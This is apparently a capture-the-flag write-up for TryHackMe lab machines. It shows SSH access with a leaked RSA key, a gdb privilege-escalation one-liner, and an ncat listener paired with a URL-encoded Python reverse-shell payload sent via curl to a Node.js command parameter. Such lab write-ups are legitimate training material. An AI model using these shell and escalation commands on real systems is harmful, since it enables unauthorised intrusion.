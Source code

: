    
This is first and relatively easy machine, But beaware this things have too many entries to keep an eye on, Best Idea for defending this is by just killing the shells. Again I am not posting the methods that are 'technically' better, I am posting methods that will be easiest to do and will get you win.
Target is to win while being inside the rules. This is not an exam, there are no wrong answers.
As the saying goes, *If it works, don't touch it.* 

1. Initial gobuster scan revealed that `robots.txt` file contains an abnormal entry, When we navigate to it, we find the entire RSA key.

![image](https://user-images.githubusercontent.com/54495695/81495768-495e6f80-92d0-11ea-8ab8-daab1abe3cf3.png)

2. Copy the key, paste it in a file, give the file necessary permissions.<br />
Assuming you made the RSA key file with the name `id_rsa`, follow these commands.<br />
`chmod 600 id_rsa`<br />
`ssh -i id_rsa shrek@<IP ADDRESS OF MACHINE>`<br />
This will give you a shell to shrek.<br />

3. After scanning the machine with linPEAS.sh, We found tha there is a gdb vulnerabilty in the box, using GTFObins, We use the following commands to do Privilage escalation.<br />
`gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit`<br />
  #### YOU ARE ROOT. NOW DEFEND YOUR TITILE.<br />
    
#  Machine name: SPACE JAM

This machine is race to root kind of thing, There is a very low hanging fruit to get root, But it is a way use only entry, i.e. Whoever uses it first will try his best to destory this entry as it is too open. <br />

1. As always we do the basic nmap scan.<br />
![image](https://user-images.githubusercontent.com/54495695/81496158-2a151180-92d3-11ea-9d72-110073c4fbac.png)

2. We can see port 3000 is hosting Nodejs openly, So we try to get the reverse shell from it.<br />
    To do that, First start a listener on your machine using these commands:<br />
       `ncat -lvnp 4444` // I am using ncat, since I am on a Arch based system, You can use `nc` inplace of ncat.<br />
     Once the listener is ready, we deploy the payload.<br />
3. After testing many payloads we found the one of python to be working, For more payloads, follow this link.<br />
    The payload:<br />
           REPLACE <REMOTE_IP> with the IP of box.<br />
           REPLACE <LOCAL_IP> with the IP of your tryhackme VPN.<br />
   
        curl "<REMOTE_IP>:3000/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<LOCAL_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"

    On listener, you can see that we have a shell now.<br />
   
 4. After trying a lot of tests and linPEAS, I found that the easiest method to get king AND root shell is to exploit the `cp` vulnerability on the box. I am leaving the ideas to you for this one, but after making you king.<br />
 